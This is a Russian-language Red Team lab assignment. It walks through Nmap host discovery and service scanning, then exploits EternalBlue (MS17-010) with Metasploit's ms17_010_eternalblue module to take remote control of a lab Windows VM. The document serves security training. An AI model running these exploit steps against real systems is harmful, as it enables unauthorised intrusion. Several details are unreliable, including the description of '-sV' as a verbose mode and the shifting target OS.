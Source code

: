 # Практическое задание: кейс Red Team

Давайте потренируемся на реальном кейсе получения удалённого доступа к серверной платформе.
Не стоит обращать внимание на старую версию операционной системы. Дело в том, что во многих крупных организациях инфраструктура создавалась десятки лет назад и IT-подразделения не торопятся обновлять операционные системы по принципу «пока работает — не трогай». От этого выполнение задания будет только интереснее.
Цель работы

    Изучить базовые команды работы с эксплойтами Metasploit Framework.
    Просканировать учебную локальную сеть.
    Выявить компьютер с уязвимостью EternalBlue.
    Провести эксплуатацию этой уязвимости и сделать скриншот экрана.

## Подготовительный этап занятия

Необходимо развернуть две виртуальные машины.

- [x] Одну с операционной системой Microsoft Windows,
- [x] другую с операционной системой Kali Linux.
- [ ] На операционной системе семейства Microsoft Windows Server 2008 отключить все антивирусные средства.

[Ссылка на виртуальную машину](https://disk.yandex.ru/d/QN6BMo3JhEaLMQ)

## Задачи, выполняемые в рамках работы

Главная задача — научиться выполнять сканирование учебной локальной сети для выявления доступных хостов.
Пример команды для выполнения ping-сканирования сети:

```bash
Nmap -sP 192.168.1.0/24
```

`-sP` — эта опция указывает Nmap произвести пинг-сканирование (определение хостов), а затем вывести список доступных хостов, т. е. тех, которые ответили на запросы. Определение маршрутов и NSE-скрипты также используются, если необходимо, однако дальнейшее тестирование (например сканирование портов или определение ОС) не производится. По умолчанию эта опция считается как бы на один шаг более тщательной, чем сканирование для составления простого списка хостов, и может быть использована в этих же целях. Она позволяет произвести исследование целевой сети без привлечения внимания.

## Следующим этапом будет сканирование уже найденных хостов с целью определения нужных портов для эксплуатации уязвимости EternalBlue.

Эксплойт EternalBlue использует уязвимость в реализации протокола Server Message Block v1 (SMB). Злоумышленник, сформировав и передав на удалённый узел особым образом подготовленный пакет, может получить удалённый доступ к системе и запустить на ней произвольный код.

Компания-разработчик Microsoft подтвердила, что уязвимости подвержены все версии Windows — начиная с Windows XP и заканчивая Windows Server 2016 — то есть уязвимость оставалась неисправленной на протяжении по крайней мере 16 лет. Она была устранена в серии обновлений MS17-010.

Первое публичное использование эксплойта EternalBlue было зарегистрировано 21 апреля 2017 года, когда программа-бэкдор DoublePulsar, основанная на коде АНБ, поразила свыше 200 тыс. компьютеров в течение нескольких дней. 12 мая 2017 года появился шифровальщик WannaCry, использовавший эксплойт EternalBlue и код DoublePulsar, который поразил десятки тысяч компьютеров в Интернете. Размах атаки был настолько обширен, что побудил Microsoft выпустить обновления к неподдерживаемым ОС Windows XP/Windows Server 2003 и Windows 8.

Пример команды для выполнения сканирования ранее найденных хостов:

```bash
Nmap -sV <ip-адрес>
```

Где `-sV` — команда использовать режим «подробного отчёта». Эту опцию рекомендуется использовать в любых случаях, поскольку при этом Nmap подробно сообщает о ходе выполнения текущей операции.

Наша цель — найти компьютер с открытым портом 445 под управлением операционной системы Microsoft Windows XP.

## Далее приступаем к самой эксплуатации уязвимости. Для этого выполняем следующие команды на Kali Linux:

```
Msfconsole
 search ms17-010
 Matching Modules
================
    #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

use 2
set RHOST <найденный ip-адрес>
exploit
screenshot
```

Выполнение указанных выше команд позволит вам получить удалённый доступ к рабочему месту, подверженному уязвимости Eternal Blue.

Теперь можно с уверенностью сказать, что начальные навыки по проверке уязвимости рабочих мест и серверов вы получили. Надеемся, что эти навыки помогут вам в дальнейшем более детально погрузиться в аспекты работы Red Team.

## Условия реализации

В предлагаемую форму для ввода приложите сделанный скриншот.
